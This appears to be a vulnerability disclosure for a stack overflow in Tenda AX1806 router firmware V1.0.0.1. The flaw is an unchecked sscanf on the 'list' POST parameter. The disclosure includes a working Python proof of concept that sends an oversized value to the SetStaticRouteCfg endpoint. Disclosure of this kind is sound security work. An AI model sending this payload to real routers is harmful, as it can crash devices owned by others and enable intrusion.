



## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3422.html

## Affected version

AX1806 V1.0.0.1

## Vulnerability details

The Tenda AX1806 V1.0.0.1 firmware has a stack overflow vulnerability in the `sub_519F4` function. 

The `v2` variable receives the `list` parameter from a POST request and is passed to function `fromSetRouteStatic`.



In the following processing function, the length of this parameter is not detected

Here in the `sscanf` function, a stack overflow is caused



## POC

```
import requests

ip = "192.168.2.1"
url = "http://" + ip + "/goform/SetStaticRouteCfg"

data = {"list":"1,1,1,"+"A"*0x610+"\n"}
response = requests.post(url, data=data)
print(response.text)
```

